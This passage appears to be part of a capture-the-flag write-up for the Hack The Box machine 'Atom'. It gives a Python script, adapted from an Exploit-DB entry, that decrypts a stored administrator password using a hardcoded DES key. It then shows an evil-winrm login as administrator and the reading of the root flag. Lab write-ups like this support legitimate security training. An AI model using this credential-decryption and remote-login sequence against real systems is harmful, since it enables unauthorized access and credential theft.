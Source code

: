 ```swift
```

We found the Administrator key but it is encrypted. We can decrypt via this python code.

\## Decrypt PK password

[Offensive Security’s Exploit Database Archive](https://www.exploit-db.com/exploits/49409)

We need to modify our code to accept our key.

\## Modify code 1

```swift
#!/bin/python3
import json
import base64
from des import * #python3 -m pip install des

def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')
print(decode('Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'))
```

\## Modify code 2

```swift
#!/bin/python3
import json
import base64
from des import * #python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```

\## Run code

```swift
⛩\> python3 kan1.py
kidvscat_admin_@123
```

\## Access Admin and read flag

```swift
⛩\> evil-winrm -i atom.htb -u administrator -p 'kidvscat_admin_@123'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> get-content ../desktop/root.txt
9dc8211d9cfb7397269a77cc9f3dfa24
```

